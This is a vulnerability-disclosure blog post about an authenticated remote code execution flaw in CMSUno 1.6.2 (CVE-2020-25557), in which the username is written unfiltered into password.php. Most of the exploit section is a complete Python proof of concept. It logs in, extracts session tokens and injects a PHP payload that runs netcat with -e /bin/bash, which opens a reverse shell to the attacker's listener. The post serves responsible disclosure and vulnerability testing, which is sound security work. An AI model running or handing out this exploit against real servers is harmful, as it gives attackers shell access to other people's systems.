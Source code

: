 ```yaml
---
title: CMSUno 1.6.2 | RCE [Authenticated] (password.php) | CVE-2020-25557
author: Fatih Çelik
date: 2020-09-30 11:33:00 +0800
categories: [Vulnerability Research]
tags: [vulnerability research]
math: true
mermaid: true
---
```


**Vendor**: https://github.com/boiteasite/cmsuno/

**Version**: 1.6.2Vulnerability: Code Injection

**CVE**: CVE-2020-25557

**Exploit-DB**: https://www.exploit-db.com/exploits/49031

## Analysis

If you read my other blog [post](https://fatihhcelik.blogspot.com/2020/09/cmsuno-162-remote-code-execution_30.html) about CMSuno, this vulnerability will be familiar to you because the problem is the same. So I will not go into much detail in this article. The problem here is when you change your username and password your username and password will go to the password.php file without any filtering like below.

![](/photos/cmsuno-7.png)

This is the content of the password.php file.

![](/photos/cmsuno-8.png)

While you are changing your password you can inject PHP code into the $user parameter. After that, when you log in to the application your malicious PHP code will be run.

![](/photos/cmsuno-9.png)

## Exploit

I wrote the PoC for this vulnerability. You can use my PoC code below to test your version is vulnerable or not. Don't forget the get backup of your password.php file.

```python
import requests
from bs4 import BeautifulSoup
import lxml
import json
from time import sleep

username = input("username: ")
password = input("password: ")
root_url = input("Root URL: http://192.168.1.9/cmsuno --> ")
listener_ip = input("Your ip: ")
listener_port = input("Your port for reverse shell: ")

login_url = root_url + "/uno.php"
vulnerable_url = root_url + "/uno/central.php"

session = requests.Session()
request = session.get(login_url)

# Get the unox value
soup = BeautifulSoup(request.text,"lxml")
unox = soup.find("input",{'name':'unox'})['value']

# Login 

body = {"unox":unox,"user":username,"pass":password}
session.post(login_url, data=body)

# Get the second unox value

request = session.get(login_url)
text = request.text
soup = BeautifulSoup(text,"lxml")
script = soup.findAll('script')[1].string
data = script.split("Unox='")[1]
unox = data.split("',")[0]

# Exploit

header = {
"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0",
"Accept":"*/",
"Accept-Encoding": "gzip, deflate",
"X-Requested-With": "XMLHttpRequest",
"Origin": login_url,
"Referer": login_url
}

payload = 'en";system(\'nc.traditional {} {} -e /bin/bash\');?>// '.format(listener_ip,listener_port)
body = 'action=sauvePass&unox={}&user0={}&pass0={}&user={}&pass=654321&lang=en'.format(unox,username,password,payload)
session.post(vulnerable_url, data=(json.dumps(body)).replace("\\","")[1:-1],headers=header)

# Login to trigger password.php

# Get the unox value

session1 = requests.Session()
request1 = session1.get(login_url)
soup = BeautifulSoup(request1.text,"lxml")
unox = soup.find("input",{'name':'unox'})['value']

# Login
sleep(3)
body = {"unox":unox,"user":username,"pass":password}
session1.post(login_url, data=body)
```

![](/photos/cmsuno-10.png)

## Disclosure Timeline

12 September 2020 - First Contact

29 September 2020 - Released CMSUno Version 1.6.3

30 September 2020 - Responsible Disclosure
